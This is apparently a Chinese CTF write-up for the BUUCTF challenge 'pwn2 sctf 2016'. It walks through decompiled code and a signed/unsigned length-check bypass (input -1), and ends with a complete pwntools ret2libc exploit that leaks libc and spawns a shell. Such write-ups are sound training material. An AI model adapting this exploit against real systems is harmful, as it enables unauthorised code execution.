 ```yaml
---
author: 
  name: Zephyr
title: pwn2 sctf 2016
date: 2022-3-23 7:17:03
permalink: /pages/2e1547494524d195
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# pwn2 sctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwn2_sctf_2016/pwn2_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  return vuln();
}
```

vuln函数如下

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

get_n函数如下

```c
int __cdecl get_n(int a1, unsigned int a2)
{
  int v2; // eax
  int result; // eax
  char v4; // [esp+Bh] [ebp-Dh]
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = 0;
  while ( 1 )
  {
    v4 = getchar();
    if ( !v4 || v4 == 10 || v5 >= a2 )
      break;
    v2 = v5++;
    *(_BYTE *)(v2 + a1) = v4;
  }
  result = a1 + v5;
  *(_BYTE *)(a1 + v5) = 0;
  return result;
}
```



## 思路分析

1. 目前信息：
   - get_n函数的第二次调用时若能控制v2参数即可实现任意长度写入
   - 而v2参数是由第一次get_n调用时处理的
   - get_n函数顾名思义为向第一个参数内写入第二个参数长度的数据
   - 第一次输入的数据将被转换为int值，该值并不允许大于32，造成长度太短，无法控制程序执行流
   - if判断是有符号类型，get_n的控制写入数据长度参数的数据类型为无符号类型
   - No PIE
2. 思路：
   - 利用有无符号类型的区别，首次输入为负数内容绕过if判断，例如-1，这是该值将会以无符号数的读取方式成为第二次输入数据的长度，为溢出提供条件，后续就是常规的ret2libc

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn2_sctf_2016/pwn2_sctf_2016'
io = remote('node4.buuoj.cn', 25697)
# io = process(pwnfile)
elf = ELF(pwnfile)
printf_plt = elf.plt['printf']
libc_start_main_got = elf.got['__libc_start_main']
offset = 44+4
pop_ret = 0x0804835d
vuln_addr = elf.symbols['vuln']
io.sendlineafter('me to read?', '-1')
payload = flat(['a'*offset, printf_plt, pop_ret,libc_start_main_got, vuln_addr])
io.sendlineafter('bytes of data!\n', payload)
io.recvuntil('\n')
leak_libc_start_main = u32(io.recvuntil('How many bytes do you want me to read?', drop=True))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libcbase = leak_libc_start_main-libc.dump('__libc_start_main')
system = libcbase+libc.dump('system')
bin_sh = libcbase+libc.dump('str_bin_sh')
io.sendline('-1')
payload = flat(['a'*offset, system, 0xdeadbeef, bin_sh])
io.sendlineafter('bytes of data!\n', payload)
io.interactive()
```